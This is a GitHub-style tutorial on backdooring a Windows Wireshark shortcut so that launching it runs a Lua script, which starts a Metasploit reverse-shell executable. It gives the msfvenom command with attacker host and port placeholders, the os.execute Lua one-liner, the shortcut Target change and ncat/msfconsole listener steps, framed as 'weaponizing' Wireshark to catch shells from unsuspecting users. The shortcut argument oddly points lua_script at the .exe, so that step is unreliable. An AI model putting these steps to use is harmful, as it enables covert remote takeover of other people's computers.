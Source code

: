 # Wireshark Reverse Shell on Windows
Thanks to [@netspooky](https://twitter.com/netspooky) for [showing this cool little trick](https://vm.tiktok.com/TTPdrQc8p6/) to pwn computers without even hacking them if you have physical access to them.

You can change the wireshark executable target for a LUA script that will execute another malicious executable on the system.

To achieve the reverse shell we are going to need the following 2 main things.
## The malicious executable
We first need a malicious executable that will be responsible for connecting to our C2 and giving this C2 full remote access.

For this you can either generate an executable with Cobalt Strike, Metasploit Framework or you can just make your own custom malware (stay in legal boundaries).

On this case we'll just use some simple Metasploit Framework generated payload since it's the quickest option, for this run the following command.
```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip of attacker> LPORT=<port of attacker> -f exe -o burgers.exe
```

Then you can move the malicious executable named `burgers.exe` to your windows target, in our case i will move the `burgers.exe` in the `%TEMP%` directory on windows.

*Note that if you did the same steps as me for the generation of the malicious executable, it will mostly be detected by the antivirus, this is because metasploit payloads are well known by most antivirus out here.*

## The LUA Script
The second thing we need is that LUA Script which will be run everytime someone tries to open wireshark and will be responsible for running the malicious file we created in the previous section.

LUA is a pretty easy programming language, nothing tough here. Just write a small script that can execute another executable on the system.

This can be achieved easily using the following one liner script.
```lua
-- You will have to change %userprofile% by your profile path
os.execute("START /B %userprofile%\\AppData\\Local\\Temp\\burgers.exe")
```

Put this in a file named `wireshark_startup.lua` and put it in the directory you want, in my case i will put it in the windows `%TEMP%` directory.

## Wireshark Weaponization
Now we have everything ready it's time to ***weaponize*** Wireshark. And this has never been simpler.

1. Right click on the Wireshark Executable.
2. Find the **Target** input field, and change it for the following.
```
-X lua_script:%userprofile%\AppData\Local\Temp\burgers.exe
```
3. Apply the changes to the executable.

Wireshark has successfully been weaponized, everytime it will get executed it will also execute our LUA script responsible for executing our malicious executable which will spawn us a shell at `<ip of attacker>:<port of attacker>`.

## Catching Reverse Shells
Now it's time for the fun bit, catching shells ! For this, start your listener at `<ip of attacker>:<port of attacker>`.
```
$ ncat -lnvp 6969
```

If you are using msfconsole payload use the following method instead.
```
$ msfconsole
> use exploit/multi/handler
> set payload windows/x64/shell_reverse_tcp
> set LHOST <ip of attacker>
> set LPORT <port of attacker>
> exploit -j
```

And if you have physical access you can either execute wireshark yourself or wait for someone to execute it and catch shells outside their local area network.

